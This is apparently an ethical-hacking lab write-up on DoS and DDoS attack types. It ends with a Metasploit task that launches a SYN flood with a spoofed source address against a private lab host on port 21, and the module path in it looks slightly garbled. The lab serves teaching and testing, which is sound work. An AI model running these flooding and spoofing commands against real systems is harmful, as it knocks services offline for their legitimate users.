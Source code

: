 

# Lab 1: Perform DoS and DDoS Attacks using Various Techniques

**Overview of DoS and DDoS Attacks**

DDoS attacks mainly aim at the network bandwidth; they exhaust network, application, or service resources, and thereby restrict legitimate users from accessing their system or network resources.

In general, the following are categories of DoS/DDoS attack vectors:

- **Volumetric Attacks**: Consume the bandwidth of the target network or service

  Attack techniques:

    - UDP flood attack
    - ICMP flood attack
    - Ping of Death and smurf attack
    - Pulse wave and zero-day attack
- **Protocol Attacks**: Consume resources like connection state tables present in the network infrastructure components such as load-balancers, firewalls, and application servers

  Attack techniques:

    - SYN flood attack
    - Fragmentation attack
    - Spoofed session flood attack
    - ACK flood attack
- **Application Layer Attacks**: Consume application resources or services, thereby making them unavailable to other legitimate users

  Attack techniques:

    - HTTP GET/POST attack
    - Slowloris attack
    - UDP application layer flood attack
    - DDoS extortion attack

## Tasks 1: Perform a DoS Attack (SYN Flooding) on a Target Host using Metasploit

	[parrot]
	sudo su
	cd
	
	nmap -p 21 10.10.1.11
	displaying the port status as open
Now, we will perform SYN flooding on the target machine (**Windows 11**) using port 21, by spoofing the IP address of the **Parrot Security** machine with that of the Windows Server 2019

	msfconsole
	use auxiliary/docs/tcp/synflood
	show options
	set RHOST 10.10.1.11
	set RPORT 21
	set SHOST 10.10.1.19 (Spoofable IP Address)
	exploit
